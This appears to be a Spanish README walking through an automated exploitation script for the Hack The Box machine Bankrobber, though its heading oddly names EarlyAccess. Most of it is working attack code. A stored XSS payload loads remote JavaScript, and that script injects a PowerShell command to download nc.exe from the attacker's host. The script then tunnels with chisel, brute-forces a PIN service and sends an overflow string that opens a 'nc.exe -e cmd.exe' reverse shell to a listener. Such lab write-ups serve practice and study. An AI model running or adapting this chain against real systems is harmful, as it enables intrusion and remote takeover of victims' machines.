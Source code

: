 # Autopwn - EarlyAccess

En caso de no haber realizado la máquina Bankrobber, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Bankrobber) para comprender el autopwn.

<p align="center">
	<img src="Img/Autopwn-Bankrobber.png"
		alt="autopwn"
	style="float: left; margin-right: 10px;" />
</p>

# Funcionamiento

El primer paso que realiza el script es en la creación del archivo, el cual primero descargara el binario **nc.exe** y luego ejecuta el **Chisel** como cliente.

```python3
content = f"""var request = new XMLHttpRequest();
var pwn = 'cmd=dir|powershell -c "iwr http://{MyIP}/nc.exe -outfile %temp%\\\\nc.exe" |start \\\\\\\\{MyIP}\\\\pwn\\\\chisel.exe client {MyIP}:8080 R:910:127.0.0.1:910';
request.open("POST", "http://localhost/admin/backdoorchecker.php", true);
request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
request.send(pwn);
"""

with open('pwn.js', 'w') as file:
	file.write(content)
```
Despues, crea y ejecuta los servidores **HTTP** y **SMB**, junto con **Chisel**, en segundo plano.
```python3

http_server = subprocess.Popen(["python3","-m","http.server","80"],stdout=subprocess.PIPE,stderr=subprocess.PIPE, text=True)

chisel_server = subprocess.Popen(["./chisel","server","-p","8080", "--reverse"],stdout=subprocess.DEVNULL,stderr=subprocess.DEVNULL)


def smb_server():
    server = SimpleSMBServer()
    server.addShare("pwn", ".")
    server.setSMB2Support(True)
    server.start()

threading.Thread(target=smb_server, daemon=True).start()
```

Mientras, la función **register** crea el usuario que enviará el **XSS** al usuario admin, y la función  **login** obtiene el **ID** de dicho usuario para poder enviar el mensaje.

```python3
def register():

	url_register = main_url + "/register.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = requests.post(url_register, data=data)

	ID = login()

	return ID

def login():
	url_login = main_url + "/login.php"

	data  = {
		"username": username,
		"password": password,
		"pounds": "Submit+Query"
	}

	r = s.post(url_login, data=data)

	ID = s.cookies.get_dict()["id"]

	return ID




```
Con el **ID** ya obtenido, la función **Send_XSS** envía el mensaje y monitorea el servidor **HTTP** en espera de una petición **GET**. Para garantizar su persistencia, el mensaje se reenvía cada minuto en caso de que sea eliminado. Una vez que la petición es recibida, el proceso vuelve a esperar hasta que el puerto **910** es abierto.

```python3
def Send_XSS(ID):

	url_shell = main_url + "/user/transfer.php"

	headers= {
	"Content-Type": "application/x-www-form-urlencoded"
	}

	data = {
		"fromId": ID,
		"toId": "1",
		"amount": "1",
		"comment": "<script src='http://%s/pwn.js'></script>" % MyIP
	}

	threading.Thread(target=logs_get, daemon=True).start()

	r = s.post(url_shell, data=data, headers=headers)


	while "GET" not in line:
		r = s.post(url_shell, data=data, headers=headers)
		time.sleep(60)

	while True:
		if check_port("0.0.0.0", 910):
			threading.Thread(target=brutef_buffer, daemon=True).start()
			break

def check_port(host, port):
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
			sock.settimeout(1)
			result = sock.connect_ex((host, port))
			return result == 0


def logs_get():
	global line
	line = http_server.stderr.readline().strip()
	print(line)

```

Tras la apertura del puerto **910** comienza el ataque de fuerza bruta en segundo plano, mientras por otro lado, es puesto en escucha, para recibir la shell como el usuario admin.

```python3

def brutef_buffer():

	buffer = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\\Users\\Cortin\\AppData\\Local\\Temp\\nc.exe 10.10.14.13 444 -e cmd.exe"

	for pin in range(10000):

		pin = str(pin).zfill(4)

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(("127.0.0.1", 910))

		data = s.recv(1024)

		s.send(pin.encode() + b'\n')

		data = s.recv(1024)

		if "Access denied" not in data.decode():
			print(pin)
			s.send(buffer.encode() + b'\n')
			s.close()
			break

		time.sleep(2)

def receive_all(conn):
	# Recibe datos en un bucle hasta que no haya más.
	data = b""
	conn.settimeout(2)  # Tiempo de espera breve para evitar bloqueos
	try:
		while True:
			chunk = conn.recv(4096)
			if not chunk:
				break
			data += chunk
	except socket.timeout:
		pass  # El timeout indica que no hay más datos por recibir
	return data.decode("ISO-8859-1", errors="ignore") # Devuelve los datos decodificados en ISO-8859-1, ignorando errores en la conversión



def R_Shell():

	HOST = "0.0.0.0"
	PORT = 444

	server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	server.bind((HOST, PORT))
	server.listen(5)  # Permite múltiples conexiones

	cont = 0


	while True:
		conn, addr = server.accept()

		while True:
			if cont == 0:
				conn.send("taskkill /IM chisel.exe /F".encode() + b"\n")

			time.sleep(1)
			command = input("$ ")
			if command.lower() == "exit":
				conn.send(b"exit")
				conn.close()
				break
			conn.send(command.encode() + b"\n")
			result = receive_all(conn)
			print(result)
			cont = 1

```
